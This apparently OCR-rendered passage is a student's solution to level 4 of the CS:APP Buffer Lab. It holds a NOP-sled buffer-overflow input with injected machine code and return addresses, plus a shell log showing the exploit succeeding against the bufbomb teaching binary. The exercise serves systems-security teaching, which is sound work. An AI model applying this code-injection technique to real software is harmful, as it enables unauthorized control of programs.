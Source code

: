 ```txt
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 8d 6c 24 28 b8
90 90 90 90 90 8d 6c 24 28 b8
b7 b2 05 10 68 3a 8e 04 08 c3
90 90 90 90
d8 33 68 55
```

```bash
root@da1811a84ddc:~/csapp/04Buffer Lab (IA32)/buflab-handout# ./hex2raw < 4.txt -n | ./bufbomb -u bovik -n
Userid: bovik
Cookie: 0x1005b2b7
Type string:KABOOM!: getbufn returned 0x1005b2b7
Keep going
Type string:KABOOM!: getbufn returned 0x1005b2b7
Keep going
Type string:KABOOM!: getbufn returned 0x1005b2b7
Keep going
Type string:KABOOM!: getbufn returned 0x1005b2b7
Keep going
Type string:KABOOM!: getbufn returned 0x1005b2b7
VALID
NICE JOB!
```
